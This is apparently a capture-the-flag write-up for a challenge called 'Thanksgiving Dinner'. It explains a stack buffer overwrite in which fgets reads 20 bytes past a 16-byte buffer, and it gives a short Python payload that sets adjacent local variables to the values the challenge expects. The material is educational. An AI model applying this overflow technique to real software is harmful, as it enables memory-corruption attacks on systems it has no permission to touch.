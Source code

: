 # Thanksgiving Dinner

## Solution

This challenge is a simple buffer over write!

If we disassemble the vulnerable function we can see there is an fgets that allows 20 bytes more than the size of the buffer!
Using this we can overwrite 5 local variables.

First we will overload our buffer.
Once we overload the buffer we will start to bump up against the last variable defined.

```c
int x;
int y;
int w;
int z;
int a;
char buffer[16];
```

Since the stack grows **down** variables like arrays will grow up in memory.
Element 0 of buffer will be at a *lower* address than element 1. So to overwrite a we should dump 16 dummy characters.
Now we will be at `a` to overwrite it to be the correct value; which is 42.

We do this for each variable on the stack.

Here is the code to do this.

```python
import struct

payload = 'a' * 0x10

payload += struct.pack("I", 42)


payload += struct.pack("i", 0)

payload += struct.pack("I", 0x667463)

payload += struct.pack("i", -21)

payload += struct.pack("I", 0x1337)

print(payload)
```

`python exploit.py | ./turkey`

## Note

Ensure you have enabled 32-bit binary support if you have a 64-bit machine.
On Ubuntu you can run `sudo dpkg --add-architecture i386`.
